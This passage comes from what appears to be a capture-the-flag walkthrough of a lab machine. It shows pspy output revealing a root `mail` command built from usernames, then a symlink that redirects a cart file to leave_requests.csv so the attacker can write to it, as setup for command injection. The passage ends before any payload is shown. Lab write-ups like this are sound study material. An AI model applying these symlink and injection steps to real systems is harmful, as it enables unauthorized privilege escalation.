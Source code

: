 

#### Processes

Nothing jumps out from the process list. I'll run PSpy to look for any
crons that are running. I'll remember before that leave requests are
sent to Christine. If I generate a leave request with `pspy64` running,
processes start:



    2022/10/05 04:57:15 CMD: UID=0    PID=3440   | mail -s Leave Request: christopher.jones christine 
    2022/10/05 04:57:15 CMD: UID=0    PID=3441   | /usr/sbin/sendmail -oi -f root@awkward -t 
    2022/10/05 04:57:15 CMD: UID=0    PID=3442   | /usr/sbin/postdrop -r 
    2022/10/05 04:57:15 CMD: UID=0    PID=3443   | cleanup -z -t unix -u -c 
    2022/10/05 04:57:15 CMD: UID=0    PID=3444   | trivial-rewrite -n rewrite -t unix -u -c 
    2022/10/05 04:57:15 CMD: UID=0    PID=3445   | local -t unix 
    2022/10/05 04:57:15 CMD: UID=33   PID=3446   | /bin/sh -c awk '/christopher.jones/' /var/www/private/leave_requests.csv 



It's calling `mail` to send something to christine. The user's name is
in the subject line, and is likely command injectable if I can get data
into `/private/leave_requests.csv`.

### Command Injection

#### Write to leave_requests.cve

To show that I can write to this file, I'll first remove my cart and add
it back as a symlink to `leave_requests.csv`:



    bean@awkward:/var/www/store/cart$ ls
    8b80-fbfb-a3c-e97a
    bean@awkward:/var/www/store/cart$ ln -sf /var/www/private/leave_requests.csv 8b80-fbfb-a3c-e97a
    bean@awkward:/var/www/store/cart$ ls -l
    total 0
    lrwxrwxrwx 1 bean bean 35 Oct  5 05:41 8b80-fbfb-a3c-e97a -> /var/www/private/leave_requests.csv



I'll build a malicious product. It must have the first line with
`***Hat Valley Product***`, and it's the second line that gets added to
the cart. I'll get that from `1.txt`, and then add my own description:



    bean@awkward:/var/www/store/product-details$ head -1 1.txt > 223.txt
    bean@awkward:/var/www/store/product-details$ echo '0xdf 0xdf' >> 223.txt 
    bean@awkward:/var/www/store/product-details$ cat 223.txt 
    ***Hat Valley Product***
    0xdf 0xdf



Now I'll find the request in Burp to add an item to the cart, and send
it to Repeater. I'll change the item number, and send:
